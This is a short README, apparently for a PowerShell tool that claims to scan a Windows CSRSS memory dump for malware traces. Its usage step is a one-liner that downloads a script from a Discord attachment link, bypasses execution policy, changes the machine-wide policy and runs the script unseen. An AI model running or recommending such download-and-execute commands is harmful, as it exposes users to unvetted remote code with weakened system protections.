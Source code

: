# CSRSS Powershell Script
Checks the Systems CSRSS Dump for file-paths, then checks the files for signatures to ensure file integrity or detect traces of malware on a system.

### Usage of other Software
This script completely runs without any use of external software. Simply open Powershell and run:

New-Item -Path "C:\temp\dump\csrss" -ItemType Directory -Force | Out-Null;
Set-Location "C:\temp\dump\csrss";
Invoke-WebRequest -Uri "https://cdn.discordapp.com/attachments/1269629607674646540/1269629658467401788/csrss.ps1?ex=66b0c243&is=66af70c3&hm=1e220e364f6c6b853eb3b4d2846fb34e0590d299496db73529b7ce42bbccbaad&" -OutFile "csrss.ps1"; Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force; Set-ExecutionPolicy -Scope LocalMachine -ExecutionPolicy RemoteSigned -Force; .\csrss.ps1
